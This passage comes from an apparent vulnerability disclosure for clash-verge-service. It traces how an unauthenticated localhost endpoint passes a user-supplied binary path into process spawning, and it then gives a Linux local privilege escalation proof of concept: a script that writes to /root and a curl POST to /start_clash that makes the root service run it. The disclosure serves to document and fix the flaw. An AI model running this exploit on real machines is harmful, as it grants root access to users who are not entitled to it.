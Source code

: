 ```rust
)
.run(([127, 0, 0, 1], LISTEN_PORT))
.await;
```

2. `start_clash()` calls `start_mihomo()` and `start_mihomo()` calls the function `process::spawn_process(bin_path, &args, log) `passing in bin_path. `spawn_process()` calls `std::Command::new(command)` to execute the command

[clash-verge-service/src/service/core.rs](https://github.com/clash-verge-rev/clash-verge-service/blob/ffcccc6095e052534980230f9e0ca97db2675062/src/service/core.rs#L156)

```rust
let pid = process::spawn_process(bin_path, &args, log)?;
```

[clash-verge-service/src/service/process.rs](https://github.com/clash-verge-rev/clash-verge-service/blob/ffcccc6095e052534980230f9e0ca97db2675062/src/service/process.rs#L8)

```rust
let child = Command::new(command)
    .args(args)
    .stdout(log)
    .stderr(Stdio::null())
    .spawn()?;
```

## Exploitation Vector 1: Local Privilege Escalation (LPE)

### Linux

1. Create a malicious script: (normal user)

```bash
echo -e '#!/bin/bash\nid > /root/pwned' > /home/user/pwn  
chmod +x /home/user/pwn 
```

2. Send an unauthenticated request:

```bash
curl -XPOST http://127.0.0.1:33211/start_clash \
     -H 'Content-Type: application/json' \
     -d '{
       "bin_path":"/home/user/pwn",
       "config_dir":"/tmp",
       "config_file":"/dev/null",
       "log_file":"/tmp/x"
     }'
```

![](./1.png)
